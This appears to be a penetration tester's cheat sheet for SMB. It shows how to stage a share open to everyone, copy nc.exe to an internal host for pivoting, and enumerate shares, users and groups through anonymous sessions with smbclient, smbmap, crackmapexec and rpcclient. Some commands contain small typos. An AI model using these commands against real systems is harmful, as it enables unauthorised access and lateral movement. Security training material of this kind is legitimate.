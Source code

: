 ## SMB Server (Windows)

If you can't move file from Kali to the internal network, you can create a new share on DMZ.

- Need Administrator+ on **M1**
- Make sure to transfer the files into C:\temp you want to host

**On M1:** `mkdir C:\temp`

`New-SmbSHare -Name 'temp' -Path 'C:\temp' -FullAccess everyone`

**On M2:** `net use \\<IP>\temp`

`copy \\10.10.10.20\temp\nc.exe C:\nc.exe`

# SMB

**Start SMB share**

`sudo impacket-smbserver -smb2support test MS01`


**Nmap scan for vulns**

`sudo n*map -T5 -sV --script 'smb-vuln*' <IP>`

**List shares:**

`smbclient -L \\<IP>\ -N`

`crackmapexec smb <IP> -u '' “ -p '' “ --shares`

`smbmap -H <IP> -R`

`smbmap -H <IP> -u df`

**connect with no creds:**

`smbclient //<IP>/<sharename> -U ""%""`

`smbclient //<IP>/<sharename> -N`

**RPC** 

- if no password required SMB/try in general:

`rpcclient -U  '' -N <IP>`

- then run this to list users

`enumdomusers`

- or groups

`enumdomgroups`

- and query # user in groups:

`querygroup <rid #>`

# Setting up Pivot
